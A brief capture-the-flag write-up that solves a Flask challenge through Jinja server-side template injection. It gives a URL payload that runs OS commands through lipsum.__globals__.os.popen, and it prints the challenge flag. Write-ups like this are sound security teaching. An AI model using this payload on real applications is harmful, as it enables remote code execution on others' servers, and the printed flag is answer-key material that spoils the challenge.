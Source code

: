# Just Cat The Flask 1/2
> https://bluehens-cat-the-flask.chals.io/greeting/hi

## About the Challenge
We were given a website without a source code, every input after `/greeting/*` is reflected in the website

![preview](images/preview.png)

## How to Solve?
The website was vulnerable to SSTI and this website uses Jinja as its templating engine. Here is the payload I used to execute OS command:

```
https://bluehens-cat-the-flask.chals.io/greeting/{{lipsum.__globals__.os.popen('ls').read()}}
```

![ssti](images/ssti.png)

There is a file called `flag1.txt`, read that to obtain the flag

![flag](images/flag.png)

```
UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}
```